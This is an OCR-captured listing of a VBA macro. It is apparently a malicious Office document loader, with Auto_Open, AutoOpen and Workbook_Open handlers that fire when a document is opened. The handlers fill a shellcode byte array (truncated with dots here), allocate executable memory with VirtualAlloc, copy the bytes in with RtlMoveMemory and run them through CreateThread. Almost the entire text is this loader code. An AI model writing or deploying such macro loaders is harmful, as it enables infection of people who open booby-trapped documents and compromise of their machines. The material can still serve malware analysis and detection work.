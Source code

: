```basic

    Private Declare Function RtlMoveMemory Lib "kernel32" ( _
        ByVal Destination As Long, _
        ByRef Source As Any, _
        ByVal Length As Long) As Long
#EndIf

Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40

Sub Auto_Open()
    Dim source As Long, i As Long
#If Vba7 Then
    Dim  lpMemory As LongPtr, lResult As LongPtr
#Else
    Dim  lpMemory As Long, lResult As Long
#EndIf

    Dim bShellcode(376) As Byte
        bShellcode(0) = 232
        bShellcode(1) = 255
        bShellcode(2) = 255
        bShellcode(3) = 255
        bShellcode(4) = 255
        bShellcode(5) = 192
        bShellcode(6) = 95
        bShellcode(7) = 185
        bShellcode(8) = 85
        bShellcode(9) = 3
        bShellcode(10) = 2
        bShellcode(11) = 2
        bShellcode(12) = 129
        bShellcode(13) = 241
        bShellcode(14) = 2
        bShellcode(15) = 2
        bShellcode(16) = 2
                .....................
lpMemory = VirtualAlloc(0, UBound(bShellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    For i = LBound(bShellcode) To UBound(bShellcode)
        source = bShellcode(i)
        lResult = RtlMoveMemory(lpMemory + i, source, 1)
    Next i
    lResult = CreateThread(0, 0, lpMemory, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```
